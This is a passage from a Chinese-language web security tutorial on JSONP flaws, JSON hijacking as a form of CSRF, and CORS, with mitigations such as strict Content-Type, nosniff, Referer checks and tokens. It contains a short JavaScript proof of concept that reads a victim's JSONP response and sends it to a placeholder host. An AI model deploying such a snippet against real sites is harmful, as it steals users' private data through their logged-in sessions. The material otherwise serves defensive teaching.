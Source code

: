 对于这种漏洞，主要修复手段：

* 严格定义 `Content-Type: application/json`
* 过滤callback以及JSON数据输出(针对输出结果进行转码处理)

2. json劫持

json劫持属于CSRF的范畴。攻击者可以在自己的站点中写入一条访问JSON的JS，在用户cookie未过期的情况下，JSON中会返回敏感的用户信息，然后攻击者可以获取到数据，并发送到自己的站点

敏感数据获取程序如下：

```html
<script>
function test(data) {
  // alert(v.name)
  var xhr = new XMLHttpRequest()
  var url = 'http://0.0.0.0/' + JSON.stringify(data)
  xhr.open('GET', url, true)
  xhr.send()
}
</script>
<script src="http://x.x.x.x/1.php?callback=test"></script>
```

需要注意的是`Content-Type`和`X-Content-Type-Options`头，如果在API请求的响应标头中，`X-Content-Type-Options`设置为`nosniff`，则必须将`Content-Type`设置为 JS(text/javascript、application/javascript, text/ecmascript)来在所有浏览器上生效。这是因为通过在响应中包含回调，响应不再是JSON，而是JavaScript

若配置

    header('Content-type: application/json; chartset=utf-8')
    header('X-Content-Type-Options: nosniff')

console输入如下：

    Refused to execute script from 'http://10.59.0.248/1.php?callback=test' because its MIME type ('application/json') is not executable, and strict MIME type checking is enabled.

常见的修复方案：

1. Referer正则匹配

常见的有Referer匹配正则编写错误导致正则绕过。（一般情况下浏览器直接访问某URL是不带Referer的，所以很多防御部署是允许空Referer的）

2. 添加Token
3. 放弃使用jsonp跨域获取数据，使用CORS或PostMessage

### CORS的安全性问题

重点参考这篇

[MDN HTTP访问控制（CORS）](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS#)

[AJAX请求真的不安全么？谈谈Web安全与AJAX的关系](https://dailc.github.io/2018/01/04/security_ajaxissafeornot.html)


Access-Control-Allow-Origin就是一个允许请求的域白名单，只有是这个域里有的，服务器才会统一跨域请求，如果合理的设置白名单，反而可以避免CSRF攻击。

设置成*的一般是公共的API，为了避免被频繁请求或DDOS，一般会多出密钥验证的步骤，并且限制请求频率和次数。

